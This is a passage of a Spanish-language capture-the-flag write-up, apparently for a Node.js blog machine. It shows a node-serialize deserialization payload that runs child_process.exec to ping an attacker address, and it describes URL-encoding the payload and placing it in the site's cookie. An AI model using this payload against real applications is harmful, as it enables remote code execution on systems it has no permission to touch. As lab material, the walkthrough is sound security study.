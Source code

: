 ```bash
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 1 10.10.14.64',function(error, stdout, stderr){ console.log(stdout)});}()"}
```

y lo codificamos en URL


![[20250723130302.png]](nodeblog-images/20250723130302.png)

![[20250723130308.png]](nodeblog-images/20250723130308.png)

nos copiamos todo el texto codificado y vamos a la raíz de la pagina web

![[20250723130335.png]](nodeblog-images/20250723130335.png)

una vez aqui vamos a a pulsar f12 para ver el almacenamiento de cookies

![[20250723130405.png]](nodeblog-images/20250723130405.png)
